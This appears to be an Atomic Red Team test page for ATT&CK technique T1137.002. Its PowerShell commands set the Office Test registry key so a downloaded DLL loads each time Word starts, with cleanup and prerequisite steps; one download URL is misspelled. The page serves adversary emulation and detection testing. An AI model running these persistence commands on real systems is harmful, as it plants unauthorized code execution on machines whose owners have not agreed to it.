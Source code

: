 # T1137.002 - Office Application Startup: Office Test
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/002)
<blockquote>

Adversaries may abuse the Microsoft Office "Office Test" Registry key to obtain persistence on a compromised system. An Office Test Registry location exists that allows a user to specify an arbitrary DLL that will be executed every time an Office application is started. This Registry key is thought to be used by Microsoft to load DLLs for testing and debugging purposes while developing Office applications. This Registry key is not created by default during an Office installation.(Citation: Hexacorn Office Test)(Citation: Palo Alto Office Test Sofacy)

There exist user and global Registry keys for the Office Test feature, such as:

* <code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Office test\Special\Perf</code>

Adversaries may add this Registry key and specify a malicious DLL that will be executed whenever an Office application, such as Word or Excel, is started.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office Application Startup Test Persistence (HKCU)](#atomic-test-1---office-application-startup-test-persistence-hkcu)


<br/>

## Atomic Test #1 - Office Application Startup Test Persistence (HKCU)
Office Test Registry location exists that allows a user to specify an arbitrary DLL that will be executed every time an Office
application is started. Key is used for debugging purposes. Not created by default & exist in HKCU & HKLM hives.

**Supported Platforms:** Windows


**auto_generated_guid:** c3e35b58-fe1c-480b-b540-7600fb612563






#### Attack Commands: Run with `powershell`! 


```powershell
$wdApp = New-Object -COMObject "Word.Application"
if(-not $wdApp.path.contains("Program Files (x86)"))  
{
  Write-Host "64-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll" /f       
}
else{
  Write-Host "32-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll" /f
}
Stop-Process -Name "WinWord" 
Start-Process "WinWord"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","WinWord" -ErrorAction Ignore
Remove-Item "HKCU:\Software\Microsoft\Office test\Special\Perf" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```
##### Description: DLL files must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll") -and (Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.002\bin\" -Force | Out-Null
Invoke-Webrequest -Uri "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x64.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll"
Invoke-Webrequest -Uri "htps://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x86.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll"
```




<br/>
